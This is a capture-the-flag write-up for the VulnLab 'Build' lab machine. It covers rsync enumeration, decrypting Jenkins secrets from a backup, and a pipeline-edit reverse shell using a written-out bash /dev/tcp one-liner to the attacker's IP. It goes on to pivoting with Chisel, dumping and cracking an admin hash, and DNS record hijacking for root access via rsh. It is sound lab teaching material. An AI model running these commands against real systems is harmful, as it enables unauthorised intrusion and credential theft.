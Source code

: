 ```yaml
---
title: Build
date: 2024-05-24 09:45:47 +07:00
modified: 2024-05-24 09:45:47 +07:00
tags: [ Build, VulnLab, rsync, rsh, docker, records , Writeup]
categories: vulnlab
machine_author: 
  name: XCT
  link: https://app.hackthebox.com/users/13569
# description: Build is an &quot;easy&quot; difficulty machine, Where we have to get credentials from a backup file, access the internal network and add new records in order to bypass the docker container.
image: https://photos.squarezero.dev/file/abir-images/Build/logo.png
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Build/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Build</font>

​		12<sup>th</sup> May 2024

​		Machine Author(s): [XCT](https://app.hackthebox.com/users/13569)

​		

### Description:

Build is an &quot;easy&quot; difficulty machine, Where we have to get credentials from a backup file, access the internal network and add new records in order to bypass the docker container. 

### Difficulty:

`Easy`


# Enumeration
The Nmap scan shows the following ports.
`nmap -p- --min-rate=10000 10.10.67.89`

`nmap -sC -sV -p21,23,80 10.10.67.89 -oA ./nmap/Build`

|Ports|Service
|22| ssh OpenSSH 8.9p1 Ubuntu
|53| Domain PowerDNS
|512| exec
|513| login
|514| shell Netkit rshd
|873| rsync
|3000| ppp?
|3306| mysql
|8081| blackice-icecap

![](https://photos.squarezero.dev/file/abir-images/Build/1.png)

Default creds on ssh didn't work. And MySQL and Rlogin weren't reachable.

![](https://photos.squarezero.dev/file/abir-images/Build/2.png)

Next, I visited Port 3000 and Found Gitea, a self-hosted git service.

![](https://photos.squarezero.dev/file/abir-images/Build/3.png)

After registering to the platform I checked the company repository and found dev repository by buildadm which seems like a Jenkins project.

![](https://photos.squarezero.dev/file/abir-images/Build/4.png)

Next, I check rsync to check the share in port 873 and Found a Jenkins backup file.

`rsync -av rsync://10.10.67.89/backups`
![](https://photos.squarezero.dev/file/abir-images/Build/5.png)

`rsync -av rsync://10.10.67.89/backups .`

![](https://photos.squarezero.dev/file/abir-images/Build/6.png)

# Foothold

In my research of Jenkins, I found out that to decrypt secrets we need master.key, hudson.util.Secret and the XML file containing the secrets. We can also use [Jenkin_offline_decryptor](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) to decrypt the secret.

[HackTricks Cloud](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

![](https://photos.squarezero.dev/file/abir-images/Build/7.png)

After decrypting the files found in the backup I got the password of buildadm.

![](https://photos.squarezero.dev/file/abir-images/Build/8.png)

Now after logging into the website I can edit the script and get reverse shell after waiting for a little bit.
`sh ''' bash -c 'bash -i >& /dev/tcp/10.8.2.110/1234' '''`

[Jenkins-rce-modifying-pipeline](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-creating-modifying-pipeline)

![](https://photos.squarezero.dev/file/abir-images/Build/9.png)

![](https://photos.squarezero.dev/file/abir-images/Build/10.png)


# Docker Escape

Inside the home directory, I found rhosts file which contained some server names. I'm likely inside a docker container. 

![](https://photos.squarezero.dev/file/abir-images/Build/11.png)

Next, I used Chisel in order to connect to internal running services.

![](https://photos.squarezero.dev/file/abir-images/Build/12.png)
![](https://photos.squarezero.dev/file/abir-images/Build/13.png)
![](https://photos.squarezero.dev/file/abir-images/Build/14.png)
![](https://photos.squarezero.dev/file/abir-images/Build/15.png)

I also made sure to change proxychains config file

![](https://photos.squarezero.dev/file/abir-images/Build/16.png)

A lot of the core binary/functions are missing in the docker. I went back to the website and found the internal IP address inside the webhook.

![](https://photos.squarezero.dev/file/abir-images/Build/17.png)


Now we can scan the internal ports.

![](https://photos.squarezero.dev/file/abir-images/Build/18.png)

Default creds can get us access to MySql server.

![](https://photos.squarezero.dev/file/abir-images/Build/19.png)

After enumerating the databases I got the admin hash and more services that are running inside.

```bash
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+ 
| information_schema | 
| mysql              | 
| performance_schema | 
| powerdnsadmin      | 
| sys                | 
+--------------------+ 
5 rows in set (0.130 sec)
```

```bash
MariaDB [powerdnsadmin]> SHOW TABLES;
+-------------------------+
| Tables_in_powerdnsadmin |
+-------------------------+
| account                 |
| account_user            |
| alembic_version         |
| apikey                  |
| apikey_account          |
| comments                |
| cryptokeys              |
| domain                  |
| domain_apikey           |
| domain_setting          |
| domain_template         |
| domain_template_record  |
| domain_user             |
| domainmetadata          |
| domains                 |
| history                 |
| records                 |
| role                    |
| sessions                |
| setting                 |
| supermasters            |
| tsigkeys                |
| user                    |
+-------------------------+
23 rows in set (0.130 sec)
```

```bash
MariaDB [powerdnsadmin]> SELECT * FROM user;
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
| id | username | password                                                     | firstname | lastname | email          | otp_secret | role_id | confirmed |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
|  1 | admin    | $2b$12$s1hK0o7YSc2<...SNIP...>.hsEq | admin     | admin    | admin@build.vl | NULL       |       1 |         0 |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
1 row in set (0.128 sec)    
MariaDB [powerdnsadmin]> SELECT * FROM records;
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
| id | domain_id | name                 | type | content                                                                                  | ttl  | prio | disabled | ordername | auth |
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
|  8 |         1 | db.build.vl          | A    | 172.18.0.4                                                                               |   60 |    0 |        0 | NULL      |    1 |
|  9 |         1 | gitea.build.vl       | A    | 172.18.0.2                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 10 |         1 | intern.build.vl      | A    | 172.18.0.1                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 11 |         1 | jenkins.build.vl     | A    | 172.18.0.3                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 12 |         1 | pdns-worker.build.vl | A    | 172.18.0.5                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 13 |         1 | pdns.build.vl        | A    | 172.18.0.6                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 14 |         1 | build.vl             | SOA  | a.misconfigured.dns.server.invalid hostmaster.build.vl 2024050201 10800 3600 604800 3600 | 1500 |    0 |        0 | NULL      |    1 |
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
7 rows in set (0.129 sec)
```

I started scanning the newly found IPs.

![](https://photos.squarezero.dev/file/abir-images/Build/20.png)
![](https://photos.squarezero.dev/file/abir-images/Build/21.png)

PowerDNS running on 172.18.0.6 and the login page was exposed as well.

![](https://photos.squarezero.dev/file/abir-images/Build/22.png)

To access the internal website in the browser I had to create a new socks5 config in ForxyProxy.

![](https://photos.squarezero.dev/file/abir-images/Build/23.png)

Now Im able to to access the website's login page.

![](https://photos.squarezero.dev/file/abir-images/Build/24.png)

I used Hashcat to crack the hash and got the admin password.

![](https://photos.squarezero.dev/file/abir-images/Build/25.png)

After logging in with the admin creds I presented with the zone management dashboard of [build.vl]().

![](https://photos.squarezero.dev/file/abir-images/Build/26.png)
![](https://photos.squarezero.dev/file/abir-images/Build/27.png)

I can redirect the internal admin.build.vl to my IP by adding a new record in the zone management. 
Now I will be able to access the main machine instead of the container.

![](https://photos.squarezero.dev/file/abir-images/Build/28.png)

Using Metasploit rlogin_login module I check to see if default cred combinations work and if root with no passwords can log in.

![](https://photos.squarezero.dev/file/abir-images/Build/29.png)

Now I can log in using rsh client.

Note: Kali removed rsh client, In order to install `sudo apt-get install rsh-redone-client`

![](https://photos.squarezero.dev/file/abir-images/Build/30.png)




